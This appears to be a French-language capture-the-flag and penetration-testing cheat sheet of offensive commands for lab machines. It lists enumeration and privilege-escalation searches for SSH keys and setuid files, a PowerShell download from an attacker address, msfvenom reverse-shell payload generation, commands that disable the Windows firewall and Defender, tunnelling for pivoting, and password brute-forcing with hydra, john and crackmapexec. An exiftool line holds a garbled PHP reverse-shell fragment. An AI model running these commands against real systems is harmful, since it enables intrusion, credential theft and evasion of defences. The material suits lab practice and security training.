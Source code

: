 # CTF-Cheat-Sheet


__Reverse shell__ :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

__Scripts d’énumération automatique pour privesc__ :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

__Enumération__
```bash
nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134
```
__WEB__
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //"IPADDRESS"/ -U ""
__Enumération des répertoires partagés accessibles en anonymous__

rpcclient -U "" -N 10.10.10.180/
__Bruteforcer les RID des comptes Windows__

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
__Bruteforce SMB avec crackmapexec__

enum4linux -a 10.10.10.180
__Enumération SMB, RPC & co (WINDOWS)__


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


__Exploitation & Elévation de privilèges [LINUX] :__
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
__Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet__

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
__-> liste les commandes autorisées pour l’utilisateur courant__

find / -type d -writable 2> /dev/null
__-> Liste les répertoires accessibles en écriture__

find /* -user root -perm -4000 -print 2>/dev/null
__-> Liste les binaires exécutables par l’utilisateur courant__

find / -type f -perm /6000 -ls 2>/dev/null
__-> Liste les fichiers setuid/setgid sur le système__

find / -iname "mon_fichier" -print 2>/dev/null
__-> Trouver un fichier précis sur le système__

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
__-> Trouver des clés RSA ou des autorisations de connexion SSH__

grep -iR "passw"
__-> Rechercher du texte dans des fichiers d’une arborescence__

binwalk socute.jpg
__-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)__

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


__Exploitation & Elévation de privilèges [WINDOWS] :__
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
__Se connecter via le port winrm__

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
__Tester les privilèges de l’utilisateur__

whoami /priv
whoami /groups
__Liste des privilèges : https://github.com/gtworek/Priv2Admin__
__Lister les privilèges de l’utilisateur courant__

Get-Services
__Lister les services (Pour vérifier les unquoted services)__

Set-ExecutionPolicy Unrestricted
__Retirer les restrictions d’exécution de scripts__

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
__Télécharger un fichier depuis un serveur web__

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
__Vérifier les exploits disponibles en fonction du systeminfo de la victime__

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
__Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet__

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
__Activer le RDP et désactiver le firewall__

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
__Désactiver Windows Defender en Powershell__


__Pivoting :__
__Sous Windows :__
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
__Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2__
__Seul WINDOWS1 peut joindre WINDOWS2__

__sur le serveur (kali) :__
./chisel server --port 9000 --host 0.0.0.0 --reverse

__sur le client (WINDOWS1 172.16.1.1) :__
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
__On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali__

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2__

__Sous Linux :__
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
__Ici Kali peut joindre LINUX1 mais pas LINUX2__
__Seul LINUXS1 peut joindre LINUX2__

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
__On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000__

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2__


__Injection SQL :__
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


__Bruteforce :__
__Cracker un hash SHA 512 avec un salage__
__Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :__
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

__Cracker un zip chiffré avec une liste de mots de passe__
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
__tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)__

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
__Pour bruteforcer de façon incrémentale__

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
__Pour bruteforcer avec un dictionnaire__

__Script de bruteforce anti-CSRF :__
https://github.com/J3wker/anti-CSRF_Token-Bruteforce



